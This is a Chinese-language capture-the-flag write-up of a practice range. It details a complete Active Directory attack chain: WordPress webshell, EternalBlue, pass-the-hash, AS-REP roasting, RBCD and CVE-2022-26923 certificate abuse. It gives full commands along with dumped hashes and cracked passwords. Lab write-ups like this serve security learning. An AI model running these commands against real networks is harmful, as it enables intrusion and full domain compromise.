# 春秋云镜-网鼎杯2022半决赛-先知社区

> **来源**: https://xz.aliyun.com/news/18592  
> **文章ID**: 18592

---

现用fscan扫一下  
  
访问发现是个wordpress,wpscan一下  
  
版本为6.2.6,使用了twentytwentyone theme  
后台弱密码admin/123456登录  
由于存在theme file editor,因此可以写马  
随便找一个php文件,写入木马.  
  
使用蚁剑连接,路径之前wpscan给出来了.  
  
得到了第一个flag  
  
flag:`flag{c0af2d06-a484-438f-8805-328a3dccae54}`  
弹shell到vps,挂代理,传fscan去扫描  
  
挨个扫一下吧  
  
  
这XR-CA有说法,之前的靶机都没这东西,一会估计得打AD-CS  
  
  
发现这个172.22.15.24存在永恒之蓝漏洞,先把他端了

```
proxychains msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.15.24
exploit
```

  
成功拿到了系统管理员权限  
dump一下哈希  


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Administractor的NTLM为`0e52d03e9b939997401466a0ec5a9cbc`,哈希横传登录一下,注意由于脚本设计问题,所以需要把前面的:带上

```
proxychains python3 psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
```

成功拿到shell,得到第二个flag  
  
flag:`flag{fce2b1da-36a2-4f92-bee1-716e8c7ee313}`  
  
改密码远程登录,上线发现一个phpstudy,给出了数据库用户名和密码  
  
这个机器有个phpmyadmin  
  
可以使用账号密码直接登录,把其中的用户信息提取出来  
  
然后使用下面的python脚本提取邮箱

```
import re

# 打开原始数据文件
with open('zdoosys_user.txt', 'r',errors='ignore') as file:
    data = file.readlines()

# 提取指定字符串
users = []
for line in data:
    match = re.search(r'(\w+)@xiaorang.lab', line)
    if match:
        username = match.group(1)
        users.append(username)

# 保存提取后的字符串到 user.txt
with open('user.txt', 'w') as file:
    for user in users:
        file.write(user + '
')
```

然后看一下能不能打AS-REP攻击

```
proxychains python3 GetNPUsers.py -dc-ip 172.22.15.13 xiaorang.lab/ -usersfile ~/Documents/user.txt
```

得到了两个没有身份认证的用户

```
$krb5asrep$23$lixiuying@XIAORANG.LAB:20b4f1eccca5f9c64407d302f2a2ad39$0a1e1cf41d1bede2f6a346283e7d223a87eae4729d830d827ab58cfd0fa17cff217fadbdde73bb522fbc01c999f98eca1e7009abeb42720796ea5180ed9ba9fa5c782809ef63a871c81a23cd2a9c718f27f559a9777c8774502a8815ec5b5d4abd6802e65d521b69d027acdeb0798ac678b098c9bb03dcd0634aa7b90a0c5c6c417a587f6387b1bb3349a2d62e51c9ab6e7ffad65307124537681737164d1aea14d11a3c4e125703855dfbaeaa6d69da66de120c21ff65143be13fd4acacafe7b4bdc863d2be9d5f2f120e7c28076a6581000a4d0ccf1085fe59a0159d013d3e27d4a2b8b9ec0449271d9be9
```

```
$krb5asrep$23$huachunmei@XIAORANG.LAB:8a965d29880a925f56a5cc48e3afbb13$062e32bad32b4bee0ad80e52c1d8ad9d28c36c3a76bb49985dbe9a78aee38aaddf1bf3c3eb71ec9964d43dc333a208535661a032220a70ee347310aa856822d3f8d2aca699f593a43ace1251aab84085c40c47ab5725c5027fc5234bbfbc91fba868b1288d39170a1c23c12c7de81b8ff930e8a04da6b7d58e185fcc7131c0ae389decdd1dce254a80948d4b25adaa5a140bf33c32acbf7e6c3bf62dabb8001b1896a42639e41399f9f75c3cb51e6909debe15806bc150600a32d32318f758003dbc0739d773fe47396d74cadea1be8cde3e0f7d767d61ab8e2a10a9408fe0c94d56f177097653ddfe933ea4
```

使用hashcat去爆一下

```
hashcat -m 18200 --force -a 0 '哈希'  /usr/share/wordlists/rockyou.txt
```

得到明文账号和密码

```
lixiuying:winniethepooh
huachunmei:1qaz2wsx
```

使用rdp登录到172.22.15.35,systeminfo发现已经进入域内  
使用Bloodhound来分析域内环境

```
SharpHound.exe -c all
```

  
发现lixiuying对XR-0687具有GenericWrite权限，能打RBCD  
首先先去添加一个机器账户

```
proxychains python3 addcomputer.py -method SAMR xiaorang.lab/lixiuying:winniethepooh -computer-name 01\$ -computer-pass Passw0rd -dc-ip 172.22.15.13
```

然后传一个[PowerView.ps1](https://github.com/shigophilo/tools/blob/master/PowerView.ps1),在powershell下去运行,抓取机器账户sid

```
Import-Module .\PowerView.ps1
Get-NetComputer 01 -Properties objectsid
```

  
得到机器id

```
S-1-5-21-3745972894-1678056601-2622918667-1147
```

修改172.22.15.35(XR-0687)机器的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性,使其指向01

```
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3745972894-1678056601-2622918667-1147)";$SDBytes = New-Object byte[] ($SD.BinaryLength);$SD.GetBinaryForm($SDBytes, 0);Get-DomainComputer XR-0687 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

  
伪造一个来自administrator的ST票据

```
proxychains impacket-getST xiaorang.lab/01\$:Passw0rd -spn cifs/XR-0687.xiaorang.lab -impersonate administrator -dc-ip 172.22.15.13 
```

impacket中的部分脚本居然在环境变量中!  
导入票据

```
export KRB5CCNAME=administrator@cifs_XR-0687.xiaorang.lab@XIAORANG.LAB.ccache 
```

改一下hosts  
  
使用ST哈希横传登录

```
proxychains python3 ~/CTFtools/impacket/examples/psexec.py Administrator@XR-0687.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13
```

这里必须使用域名,因为机器账户的身份验证是基于dNSHostName的.  
成功得到第三个flag  
  
flag:`flag{81b60625-6fa0-4ad2-b0e4-3b1d6748f37b}`

最后需要打AD-CS,使用CVE-2022–26923在KDC\_ERR\_PADATA\_TYPE\_NOSUPP错误下的打法  
这个漏洞的核心就是在使用CA证书进行验证的使用,机器账户的身份验证是基于dNSHostName的,因此可以通过篡改这个属性为域管理员来实现提权,使证书具备域控身份.[CVE-2022–26923](https://mrwq.github.io/aggregate-paper/butian/%E5%9F%9F%E5%86%85%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%96%B0%E5%A7%BF%E5%8A%BF%EF%BC%9ACVE-2022%E2%80%9326923%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%8F%8A%E5%A4%8D%E7%8E%B0/)  
还是先改一下hosts

```
echo "172.22.15.13 XR-DC01.xiaorang.lab" >> /etc/hosts
```

首先先去枚举一下可用的证书模板

```
proxychains certipy find -u 'lixiuying@xiaorang.lab' -p 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
```

  
发现能打ESC8,为什么不打他,因为不会,别人的博客也不是这么打的...都打的CVE-2022–26923  
尝试创建一个02账户

```
proxychains certipy account create -user '02$' -pass 'P@ssw0rd' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
```

注意,这里的-dns XR-DC01.xiaorang.lab是在进行DNSHOSTNAME伪造.  
  
接着使用创建的计算机账户来申请一个证书.

```
proxychains certipy req -u '02$@xiaorang.lab' -p 'P@ssw0rd' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
```

这里总超时,多打几次就好了  
  
此时申请到的证书`msPKI-Certificate-Name-Flag`的属性存在标志位`CT_FLAG_SUBJECT_ALT_REQUIRE_DNS`,指向`XR-DC01.xiaorang.lab`.也就是说这个证书使用的是DC域控的身份.  
然后使用拿到的证书去请求TGT

```
proxychains certipy auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13
```

  
发现出现了KDC\_ERR\_PADATA\_TYPE\_NOSUPP错误.打不了kerberous认证,尝试打Schannel认证

这里大概介绍一下

> * **Kerberos 认证**：一种网络认证协议，使用对称密钥加密和第三方票证授予服务（TGS）来验证用户和服务的身份。支持使用证书进行智能卡登录和 PKINIT 预认证。
> * **Schannel 认证**：Windows 操作系统的安全支持提供程序（SSP），用于实现 SSL/TLS 协议，保护网络通信的安全性。支持服务器和客户端证书验证。

Schannel认证攻击主要集中在 SSL/TLS 握手和证书验证过程中,因此攻击方法相对单一  
将我们得到的pfx证书拆分为证书和私钥

```
certipy cert -pfx ~/Documents/xr-dc01.pfx -nokey -out user.crt 
certipy cert -pfx ~/Documents/xr-dc01.pfx -nocert -out user.key
```

测试连接

```
proxychains python3 passthecert.py -action whoami -crt user.crt -key user.key -domain xiaorang.lab -dc-ip 172.22.15.13
```

  
接下来配置机器账户指向DC01的RBCD

```
proxychains python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from '02$'
```

  
此时成功配置了02向DC01的RBCD  
伪造一个来自administrator的ST

```
proxychains impacket-getST xiaorang.lab/02\$:P@ssw0rd -spn cifs/XR-DC01.xiaorang.lab -impersonate administrator -dc-ip 172.22.15.13
```

  
导入ST

```
export KRB5CCNAME=administrator@cifs_XR-DC01.xiaorang.lab@XIAORANG.LAB.ccache
```

哈希横传成功登录

```
proxychains python3 ~/CTFtools/impacket/examples/psexec.py Administrator@XR-DC01.xiaorang.lab -k -no-pass -dc-ip 172.22.15.13 -codec gbk
```

得到flag:`flag{33a4c351-dbd0-4e00-aa4b-a8297a6fd691}`

共用时2小时59分,这是第一次进行RBCD提权攻击,也是第一次打这个AD-CS.感觉很有收获.关于AD-CS的知识还有很多欠缺,后面慢慢学习.  

